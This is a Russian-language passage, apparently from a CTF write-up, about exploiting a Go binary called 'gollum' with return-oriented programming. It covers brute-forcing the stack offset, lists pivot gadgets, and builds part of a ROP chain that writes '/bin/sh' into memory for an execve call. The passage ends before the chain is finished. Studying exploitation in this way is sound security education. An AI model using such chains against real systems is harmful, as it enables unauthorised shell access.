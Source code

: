 ![Адрес RSP и буфера](./rsp_vs_buf_address.png)

Оффсет RSP до буфера случаен, однако 3 последних ниббла всегда статичны. Также практическим путем
было выяснено, что оффсет не превышает 0x80000 и его можно быстро забрутить. Исходя из этого я
подобрал несколько гаджетов для pivoting'а. Наиболее удачным оказался второй

```python
ADD_RSP = 0x45d0ba    #: add rsp, 0x20008 ; ret
ADD_RSP = 0x45d1ba    #: add rsp, 0x40008 ; ret
ADD_RSP = 0x45d2ba    #: add rsp, 0x80008 ; ret
```

Для вызова execve необходимо контролировать **rax**, **rdi**, **rsi** и **rdx**, а также иметь
строку **/bin/sh** и знать ее адрес. Бинари, написанные на Go, не богаты гаджетами

```sh
$ ROPgadget --binary gollum | grep -E ': pop r.{2} ; ret$'
0x000000000040c9d7 : pop rax ; ret
0x000000000045f76d : pop rbp ; ret
0x0000000000407dc1 : pop rbx ; ret
0x000000000042dc82 : pop rdx ; ret
```

Я пошел немного эвриcтическим путем, а именно: с помощью известных простых гаджетов создал
в памяти строку **/bin/sh**

```python
POP_RAX = 0x40c9d7                          #: pop rax ; ret
POP_RBX = 0x407dc1                          #: pop rbx ; ret
MOV_PTR_RAX_8_RCX = 0x47fb17                #: mov qword ptr [rax + 8], rcx ; ret
MOV_RCX_RBX_CALL_RAX = 0x45de9f             #: mov rcx, rbx ; call rax
ADD_RSP_8_RET = 0x40e91e                    #: add rsp, 8 ; ret
SYSCALL  = 0x4026ac                         #: syscall

BUF_ADDR = 0x53e000
BUF_VALUE = b'/bin/sh\0'

rop = [
    POP_RAX,
    ADD_RSP_8_RET,
    POP_RBX,
    BUF_VALUE,
    MOV_RCX_RBX_CALL_RAX,

    POP_RAX,
    BUF_ADDR - 8,
    MOV_PTR_RAX_8_RCX,
]
```
